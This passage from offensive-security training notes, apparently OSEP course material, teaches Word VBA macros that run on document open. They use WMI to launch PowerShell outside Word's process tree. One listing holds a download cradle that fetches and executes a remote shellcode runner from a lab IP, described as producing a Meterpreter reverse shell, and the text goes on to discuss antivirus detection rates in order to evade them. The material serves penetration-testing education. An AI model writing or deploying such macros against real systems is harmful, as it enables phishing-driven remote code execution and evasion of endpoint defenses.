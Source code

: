 We can invoke the entire WMI process creation call as a one-liner from VBA as shown in Listing 40.

```
Sub MyMacro
  strArg = "powershell"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

> Listing 40 - Creating a PowerShell process with WMI

The _Create_ method accepts four arguments. The first is the name of the process including its arguments, the second and third describe process creation information that we do not need, and the fourth is a variable that will contain the process ID of the new process returned by the operating system.

When the macro is executed, a new PowerShell prompt opens and Process Explorer reveals that PowerShell is indeed running as a child process of WmiPrvSE.exe and not Microsoft Word (Figure 32).

![[OffSec/OSEP/Course/z. images/55dd5b74175bb5d57560f826b134888b_MD5.jpg]]

Figure 32: PowerShell process as child process of WmiPrvSE.exe

This could certainly work for our purposes, however PowerShell is running as a 64-bit process, which means we must update the PowerShell shellcode runner script accordingly.

We can update the PowerShell argument for the _Create_ method to include the entire download cradle as shown in Listing 41.

```
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

> Listing 41 - PowerShell shellcode runner de-chained from Microsoft Word

When we run the embedded VBA, the Meterpreter reverse shell executes as expected and it is completely de-chained from Microsoft Word. Let's scan the updated document with AntiScan.Me:

![[OffSec/OSEP/Course/z. images/74da129b87f1fc25e6e38e5fc9a8e869_MD5.jpg]]

Figure 33: Detection rates of de-chained PowerShell shellcode runner

Since seven products flag our code, it would seem that our efforts have had little impact. This is not necessarily surprising since the VBA macro still contains the same unobfuscated PowerShell download cradle as before.
